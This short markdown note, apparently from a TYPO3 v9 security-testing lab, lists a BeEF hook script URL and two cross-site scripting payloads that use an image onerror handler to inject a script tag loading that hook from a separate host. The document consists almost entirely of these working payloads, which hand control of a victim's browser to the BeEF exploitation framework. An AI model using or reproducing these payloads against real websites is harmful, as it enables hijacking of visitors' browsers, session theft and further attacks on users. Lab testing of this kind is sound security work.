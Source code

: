 # Just BeEF

* the payload

```
http://typo3v9-hack.ddev.local:3000/hook.js
```

* 1st attempt

```
Great!<img src="great" onerror="quot=String.fromCharCode(34);document.write('<script src='+quot+'http://typo3v9-hack.ddev.local:3000/hook.js'+quot+'></script>')">
```

* 2nd attempts

```
Great!<img src="great" style="display:none" onerror="script=document.createElement('script');script.src= 'http://typo3v9-hack.ddev.local:3000/hook.js';document.body.append(script);">
```
